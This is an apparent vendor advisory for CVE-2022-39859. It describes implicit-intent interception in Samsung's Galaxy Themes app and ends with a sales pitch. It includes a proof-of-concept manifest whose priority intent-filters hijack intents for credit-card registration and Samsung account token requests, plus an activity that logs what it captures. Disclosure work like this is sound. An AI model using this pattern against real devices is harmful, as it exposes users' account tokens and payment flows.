



# Details

<table>
    <tr>
        <td>Name</td>
        <td>Galaxy Themes</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.samsung.android.themestore</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.03.22</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2022.10.04</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-39859">CVE-2022-39859</a> (SVE-2022-0697)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$980</td>
    </tr>
</table>

# Description

Oversecured found several uses of implicit intents in the Galaxy Themes app when starting activities:




During research it turned out that these intents are launched when:
a. The app `com.samsung.android.mobileservice` is not installed (the device is not a Samsung)
b. the device is running under SDK 24-25

To reproduce the vulnerability, it would be enough to open the Galaxy Themes app, click on Settings, and click on the Samsung account. The attacker could then register an `intent-filter` that matched the intent signature and intercept it.

**Proof of Concept**

File `AndroidManifest.xml`:
```xml
<activity android:name=".InterceptActivity" android:exported="true">
    <intent-filter android:priority="999">
        <action android:name="com.sec.android.app.billing.CREDIT_CARD_REGISTER" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
    <intent-filter android:priority="999">
        <action android:name="com.samsung.android.mobileservice.action.ACTION_OPEN_SASETTINGS" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
    <intent-filter android:priority="999">
        <action android:name="com.msc.action.samsungaccount.myinfowebview" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
    <intent-filter android:priority="999">
        <action android:name="com.msc.action.samsungaccount.REQUEST_ACCESSTOKEN" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```

File `InterceptActivity.java`:
```java
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    DumpUtils.dump(getIntent(), getClassLoader());
    finish();
}
```

The implementation of the `DumpUtils.dump()` method can be found in the source code. We use the functionality of the Gson library to turn objects of any class into a string and then dump it to the log.

## References

- [Oversecured Blog. Interception of Android implicit intents](https://blog.oversecured.com/Interception-of-Android-implicit-intents/)

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.